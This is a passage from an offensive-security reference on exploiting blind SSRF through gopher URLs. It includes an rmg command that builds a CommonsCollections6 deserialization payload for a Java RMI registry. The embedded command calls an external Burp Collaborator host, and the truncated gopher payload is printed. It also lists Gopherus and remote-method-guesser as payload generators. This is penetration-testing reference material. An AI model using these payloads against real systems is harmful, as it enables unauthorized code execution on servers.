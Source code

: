 **Commonly bound ports: 1090,1098,1099,1199,4443-4446,8999-9010,9999**

Blind *SSRF* vulnerabilities that allow arbitrary bytes (*gopher based*) can be used to perform deserialization or
codebase attacks on the *Java RMI* default components (*RMI Registry*, *Distributed Garbage Collector*, *Activation System*).
A detailed writeup can be found [here](https://blog.tneitzel.eu/posts/01-attacking-java-rmi-via-ssrf/). The following listing
shows an example for the payload generation:

```console
$ rmg serial 127.0.0.1 1090 CommonsCollections6 'curl example.burpcollaborator.net' --component reg --ssrf --gopher
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI Registry endpoint...
[+]
[+] 	SSRF Payload: gopher://127.0.0.1:1090/_%4a%52%4d%49%00%02%4c%50%ac%ed%00%05%77%22%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%02%44%15%4d[...]
```

-------------------

**Tools**

<div id="gopherus"></div>

## Gopherus

- [Gopherus - Github](https://github.com/tarunkant/Gopherus)
- [Blog post on Gopherus](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/)

This tool generates Gopher payloads for:

- MySQL
- PostgreSQL
- FastCGI
- Redis
- Zabbix
- Memcache


<div id="remote-method-guesser"></div>

## remote-method-guesser

- [remote-method-guesser - Github](https://github.com/qtc-de/remote-method-guesser)
- [Blog post on SSRF usage](https://blog.tneitzel.eu/posts/01-attacking-java-rmi-via-ssrf/)

*remote-method-guesser* is a *Java RMI* vulnerability scanner that supports attack operations for most common *Java RMI*
vulnerabilities. Most of the available operations support the ``--ssrf`` option, to generate an *SSRF* payload for the
requested operation. Together with the ``--gopher`` option, ready to use *gopher* payloads can be generated directly.
